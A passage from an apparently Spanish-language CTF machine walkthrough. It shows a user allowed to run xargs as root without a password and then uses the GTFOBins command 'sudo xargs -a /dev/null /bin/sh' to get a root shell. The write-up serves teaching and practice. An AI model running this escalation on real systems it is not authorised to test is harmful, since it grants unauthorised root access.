    use_pty

User s4vitar may run the following commands on c0179f8066f8:
    (root) NOPASSWD: /usr/bin/xargs
```

> Observamos que el usuario `s4vitar` puede ejecutar el binario `xargs` como `root` sin necesidad de proporcionar una contraseña.

> Si consultamos `GTFOBins`, encontramos que este binario dispone de una técnica que permite aprovechar sus permisos para escalar privilegios.

```text
https://gtfobins.org/gtfobins/xargs/
```

> Vamos a utilizar la técnica indicada para ejecutar una shell con privilegios de `root`.

```bash
$ sudo xargs -a /dev/null /bin/sh
```



> Finalmente, conseguimos obtener acceso como `root`, completando así la máquina.